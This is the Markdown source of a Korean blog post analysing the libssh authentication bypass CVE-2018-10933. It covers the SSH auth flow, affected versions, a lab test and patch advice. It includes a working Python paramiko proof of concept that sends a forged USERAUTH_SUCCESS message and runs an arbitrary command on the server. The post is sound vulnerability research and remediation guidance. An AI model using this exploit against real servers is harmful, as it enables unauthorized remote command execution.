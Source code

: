 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2018-10933 libssh authentication bypass
subtitle: This is an important security and maintenance release in order to address CVE-2018-10933.
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: OCTOBER 23, 2018
---
```


<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Description
원격 로그인 프로토콜인 Secure Shell(SSH) 구축에 사용되는 모듈 libssh 이용 서버의 인증 우회공격 취약점(로그인 인증 과정 없이 원격코드 실행 가능)
공격 호스트에서 "SSH2_MSG_USERAUTH_SUCCESS" 메시지를 전송하여 이미 인증이 성공적으로 이루졌다는 패킷 전달로 인증우회

> **CVE ID : CVE-2018-10933**
> VCSS 3.X Severity and Metrics: 
> - CNA : Red Hat, Inc.
> - Base Score : 9.1 CRITICAL
> - Vector : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

영향받는 Version
- libssh version >= 0.6
- libssh version < 0.7.6
- libssh version < 0.8.4

해당 취약점은 libSSH가 인증을 진행하기 위해 **SSH_MSG_USERAUTH_REQUEST** 상태로 대기중 일때 PoC 코드에서 전송된 **SSH_MSG_USERAUTH_SUCCESS** 패킷을 서버가 수신하게 되면 공격자가 정상적으로 인증되었다고 판단하여 연결을 허용하게 된다.

<center>
		<img src="/images/2018-10-28/2018-10-28-vul-001.jpg">
</center>

- SSH_MSG_USERAUTH_REQUEST(50)
 - 클라이언트가 보내는 인증 요청 방식
- SSH_MSG_USERAUTH_FULLURE(51)
 - 하나 이상의 인증 방법을 요구할 경우
- SSH_MSG_USERAUTH_SUCCESS(52)
 - 서버가 인증을 수용

정상적인 인증과정
- 클라이언트가 서버에게 인증 방법 문자열이  'none'인 SSH_MSG_USERAUTH_REQUEST 를 요청
- 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
  유효하지 않을 시, SSH_MSG_USERAUTH_FAILURE를 보내고 연결 설정을 종료하며, 서버는 SSH_MSG_USERAUTH_REQUEST를 전송된
- 클라이언트는 인증 방법 중 하나를 선택하고, 선택된 인증방법과 필요한 필드와 함께 SSH_MSG_USERAUTH_REQUEST를 전송
- 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
- 요구된 모든 인증에 성공하면, 서버는 SSH_MSG_USERAUTH_SUCCESS 메시지를 송신하고 인증 프로토콜 종료  
 


### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)


'''
\#!/usr/bin/python3

import sys
import paramiko
import socket

s = socket.socket()
s.connect(("192.168.46.142",2222))
m = paramiko.message.Message()
t = paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)  // 인증 우회를 위한 코드
t._send_message(m)
c = t.open_session(timeout=5)
c.exec_command(sys.argv[1])
out = c.makefile("rb",2048)
output = out.read()
out.close()
print (output)
'''

<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2018-10-28/2018-10-28-vul-002.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-003.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-004.jpg">
		<img src="/images/2018-10-28/2018-10-28-vul-005.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-006.jpg">
    </div>
</center>

원격코드 실행 명령 중 서버와 통신 내역 확인 시, 암호화된 패킷으로 인패 원격실행 명령(hostname) 부분을 확인할 수 없으나
서버측에서 노출되는 libssh 정보 문자열 **SSH-2.0-libssh_0.8.3** 과 공격자 측에서 Poc 실행 중 사용되는 파이썬 모듈명 **paramisk** 가 확인된다.
- paramiko : 파이썬에서 가장 많이 사용되는 SSH Library 모듈(telnet 은 telnetlib)

### Solution
- 제조사 홈페이지를 참고하여 최신버전으로 보안 업데이트 수행
- 0.7.6 버전으로 업데이트(0.7번대 및 이전 버전 사용자)
- 0.8.4 버전으로 업데이트(0.8번대 및 이전 버전 사용자)

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>

### References
---
- https://www.guardicore.com/2018/10/libssh-new-vulnerability-allows-authentication-bypass
- https://www.kitploit.com/2018/10/libssh-scanner-script-to-identify-hosts.html
- https://koromoon.blogspot.com/2018/10/cve-2018-10933-libssh.html
- https://www.youtube.com/watch?v=ZSWQjmfcn4g
- https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=27704

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
